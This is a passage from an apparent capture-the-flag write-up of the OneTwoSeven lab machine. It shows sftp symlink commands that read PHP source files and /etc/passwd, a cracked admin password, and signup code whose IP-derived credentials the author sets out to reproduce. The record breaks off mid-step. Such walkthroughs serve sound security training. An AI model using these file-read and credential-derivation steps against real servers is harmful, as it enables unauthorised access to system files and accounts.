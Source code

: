 - There's an `ots-admin` user with a sha256 hash that is easily crackable to `Homesweethome1`
- The page mentions this is some kind of administration backend webpage
- The page is supposed to be accessed on port 60080 (which is firewalled / not listening on the 10.10.10.133 IP address)

### Getting the user flag

I can get the source of all the PHP files from the main website by creating additional symlinks:

```
sftp> ln -s /var/www/html/signup.php signup.txt
sftp> ln -s /var/www/html/index.php index.txt
sftp> ln -s /var/www/html/stats.php stats.txt
sftp> rm index.html
Removing /public_html/index.html
```

![](/assets/images/htb-writeup-onetwoseven/symlink4.png)

The `signup.php` file is interesting because it contains the logic used to generate the username and password:

```php
<?php
function username() { $ip = $_SERVER['REMOTE_ADDR']; return "ots-" . substr(str_replace('=','',base64_encode(substr(md5($ip),0,8))),3); }
function password() { $ip = $_SERVER['REMOTE_ADDR']; return substr(md5($ip),0,8); }
?>
```

I can grab the `/etc/passwd` file by symlinking to it directly:

```
sftp> ln -s /etc/passwd passwd
```

The file contains another user with the `127.0.0.1` IP address:

```
ots-yODc2NGQ:x:999:999:127.0.0.1:/home/web/ots-yODc2NGQ:/bin/false
ots-4NzkzMDE:x:1001:1001:10.10.14.23:/home/web/ots-4NzkzMDE:/bin/false
```

I have the source code of the signup page so I can find what the password is for this user. As shown previously, the password is a portion of the MD5 hash of the user IP address:
